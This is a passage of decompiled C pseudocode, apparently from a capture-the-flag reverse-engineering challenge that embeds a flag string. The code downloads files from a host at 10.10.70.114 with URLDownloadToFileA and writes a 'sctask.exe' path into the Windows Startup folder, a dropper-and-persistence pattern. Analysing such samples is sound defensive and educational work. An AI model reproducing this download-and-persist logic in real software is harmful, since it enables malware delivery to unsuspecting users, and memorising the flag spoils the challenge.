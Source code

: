 ```c
    {
      v23 = 2147483646;
      v24 = (char *)("\\2.txt" - v21);
      do
      {
        if ( !v23 )
          break;
        v25 = v21[(_QWORD)v24];
        if ( !v25 )
          break;
        *v21 = v25;
        --v23;
        ++v21;
        --v22;
      }
      while ( v22 );
    }
    v26 = v21 - 1;
    if ( v22 )
      v26 = v21;
    *v26 = 0;
  }
  URLDownloadToFileA(0, "https://10.10.70.114/2.txt", v41, 0, 0);
  URLDownloadToFileA(0, "https://10.10.70.114/L3AK{AV_evasion_is_easy", v41, 0, 0);
  result = SHGetFolderPathA(0, 7, 0, 0, v43);
  if ( result >= 0 )
  {
    v28 = 260;
    v29 = v40;
    do
    {
      if ( v28 == -2147483386 )
        break;
      v30 = v29[v43 - v40];
      if ( !v30 )
        break;
      *v29++ = v30;
      --v28;
    }
    while ( v28 );
    v31 = v29 - 1;
    if ( v28 )
      v31 = v29;
    v32 = 260;
    *v31 = 0;
    v33 = v40;
    do
    {
      if ( !*v33 )
        break;
      ++v33;
      --v32;
    }
    while ( v32 );
    v34 = 260 - v32;
    if ( v32 )
    {
      v35 = &v40[v34];
      v36 = 260 - v34;
      if ( 260 != v34 )
      {
        v37 = (char *)("\\sctask.exe" - v35);
        do
```